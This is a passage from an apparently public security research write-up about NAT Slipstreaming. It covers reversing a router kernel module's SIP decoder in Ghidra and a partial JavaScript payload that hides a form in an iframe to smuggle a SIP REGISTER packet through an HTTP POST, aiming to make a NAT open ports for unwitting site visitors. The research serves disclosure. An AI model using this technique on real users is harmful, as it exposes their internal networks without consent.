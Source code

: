 My simple [`base calculator, 3`](https://github.com/samyk/samytools/blob/master/3) shows this (db = dec -> bin):

```sh
tigerblood:/Users/samy/d$ 3 db 65536 6667 65536+6667
000000010000000000000000
000000000001101000001011
000000010001101000001011
```

We can see it better using my [`diffbits`](https://github.com/samyk/samytools/blob/master/diffbits) tool, a simple tool for viewing similarities and differences between bit strings, as well as between multiple groups of bit strings, useful for reversing proprietary, binary protocols.

![diffbits](img/diffbits.png)


### Reversing the Kernel Object

Go ahead and open your disassembler of choice. I've used [Ghidra](https://ghidra-sre.org) from our friends at the [NSA](https://github.com/NationalSecurityAgency/) as it's free and open source.

Some of the functions we saw in `tdts.ko` via `strings` was `ftp_decode` and `ftp_decoder`, so it's possible other ALGs will have a `_decode` function. Let's look...

![Ghidra _decode](img/ghidraftp.png)

Alright, a bunch of _decode functions...scrolling down, an interesting one is `sip_decode`.

![Ghidra tdts.ko](img/ghidra-sip.png)

Checking our [restricted browser ports](https://github.com/samyk/chromium/blob/2d57e5b8afc6d01b344a8d95d3470d46b35845c5/net/base/port_util.cc#L20-L90), we see 5060, the default SIP port, is not restricted in Chrome :)

### Attempting SIP Packet in HTTP POST

SIP lives on TCP/UDP 5060, but media like RTP (audio) is sent on alternate ports that are generated on the fly. When sending a request for a SIP call, your SIP client chooses a random port, opens it, and includes it in the SIP header. Your NAT should also see it and open it up, assuming the SIP ALG is enabled (and is on most routers by default).

Assuming NATs read SIP packets line by line (SIP is newline-based like HTTP and is not a binary protocol), perhaps it will ignore the HTTP header and once it gets to the POST data, read the REGISTER and believe it's a SIP packet. This worked in our 2010 version for the IRC DCC. The NAT ignored the HTTP header and just parsed the IRC DCC command.

Funny thing, this also allowed us to actually make users who visit our site connect to a *legitimate* IRC server, join a channel, and send a message from their IP without them knowing! :P I demo'd this technique for sending email to mail servers with client IP addresses before port 25 was blocked by browsers and before SPF records were common...craziness.

Now, in a quick test, sending a SIP REGISTER packet over port 5060 through an HTTP POST doesn't seem to work...perhaps we're missing something from the packet.

```javascript
// our sip message
var sipmsg = 'REGISTER sip:samy.pl;transport=TCP SIP/2.0\r\n' +
             'Contact: <sip:samy@192.168.0.109:1234;transport=TCP>\r\n\r\n'

// load form in an iframe so user doesn't see it
var iframe = document.createElement('iframe')
iframe.name = 'iframe'
iframe.style.display = 'none' // hide the iframe

// create form
var form = document.createElement('form')
form.setAttribute('target', 'iframe') // load into iframe
form.setAttribute('method', 'POST') // need the POST area where we can add CRLFs
```